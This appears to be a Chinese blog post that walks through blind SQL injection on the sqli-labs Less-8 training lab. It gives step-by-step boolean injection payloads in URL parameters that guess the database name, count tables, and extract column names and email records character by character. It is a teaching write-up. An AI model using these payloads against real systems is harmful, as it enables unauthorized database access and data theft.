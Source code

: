 ```yaml
---
layout: post
title: SQL盲注(less8)
date: 2021-06-07 21:43 +0900
category: sql-inject
---
```

## 0x0 SQL注入基本姿势
**盲注**：就是在 sql 注入过程中, sql 语句执行之后, 数据不能回显到前端页面，需要利用一些方法进行判断或者尝试。  
**length()**：用来判断字符传的长度，返回true或者false  
`length(database())>7 //database()的长度是否大于7`  
**substr()**:截取字符串  
`ascii(substr(database(),1,1))>100 //将database()的第一个字符的ASCII码与100比较返回true或者false`  
**limit(a,b)**:后缀两个参数的时候（/*参数必须是一个整数常量*/），其中a是指记录开始的偏移量,b是指从第a+1条开始，取b条记录。
`limit(0,1) //从第0条开始，取出一条记录，也就是取出第0条记录`

## 0x1 less-8

**测试注入点**
`?id=1' and 1=1 --+`  
![](/images/20210606-1.png)
`?id=1' and 1=2 --+`  
![](/images/20210606-2.png)
**可以看到，并没有返回报错的信息，但是当产生逻辑错误的时候就无法进入正确的网页**  
`?id=0' or length(database())>7--+    //true`  
`?id=0' or length(database())>8--+    //false`  
`?id=0' or length(database())=8--+    //true`  
**使用or 来判断逻辑上是否正确->才接database()的长度，0 or 1 = 1，所以只有当右边的语句正确时，才会产生正确的回显**  
![](/images/20210606-3.png)
![](/images/20210606-4.png)
**同理，猜出数据库第一位字符**  
`?id=0' or ascii(substr(database(),1,1))>100--+  //true`  
`?id=0' or ascii(substr(database(),1,1))>120--+  //false`  
`?id=0' or ascii(substr(database(),1,1))=115--+  //true`  
![](/images/20210606-5.png)
**猜出数据库中表的数量**  
`?id=0' or 4=(select count(table_name) from information_schema.tables where table_schema=database());--+`  
![](/images/20210606-6.png)
**猜出第一个表中的第一个字符**  
`?id=0' or ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+`  
![](/images/20210606-7.png)
**猜出字段长度**  
`?id=0' or (select count(column_name) from information_schema.columns where table_schema=database() and table_name='emails')=2--+`  
![](/images/20210606-8.png)
**猜出字段名称的第一个字符**  
`?id=0' or ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),1,1))>104--+`  
**猜测表中字段具体内容的条数**  
`?id=0' or 8=(select count(id) from security.emails)--+`  
**查email_id字段的第一条具体内容**  
`?id=0' or ascii(substr((select email_id from security.emails limit 0,1),1,1))=68--+`
